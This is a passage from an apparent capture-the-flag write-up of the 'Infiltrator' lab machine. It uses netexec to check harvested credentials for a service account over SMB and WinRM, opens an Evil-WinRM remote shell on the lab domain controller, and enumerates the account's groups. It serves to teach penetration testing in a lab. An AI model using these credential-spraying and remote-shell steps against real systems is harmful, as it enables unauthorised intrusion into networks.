 ![image-20240906211139296](/img/image-20240906211139296.png)

### WinRM

Those creds work for both SMB and WinRM:

```

oxdf@hacky$ netexec smb infiltrator.htb -u winrm_svc -p 'WinRm@$svc^!^P'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\winrm_svc:WinRm@$svc^!^P 
oxdf@hacky$ netexec winrm infiltrator.htb -u winrm_svc -p 'WinRm@$svc^!^P'
WINRM       10.10.11.31     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb)
WINRM       10.10.11.31     5985   DC01             [+] infiltrator.htb\winrm_svc:WinRm@$svc^!^P (Pwn3d!)

```

I’ll connect with Evil-WinRM:

```

oxdf@hacky$ evil-winrm -i infiltrator.htb -u winrm_svc -p 'WinRm@$svc^!^P'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> 

```

## Shell as O.Martinez

### Enumeration

#### From Shell

There’s not too much new that jumps out enumerating from the shell. The user is a member of the `Service_Management` group:

```
*Evil-WinRM* PS C:\Users\winrm_svc> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
```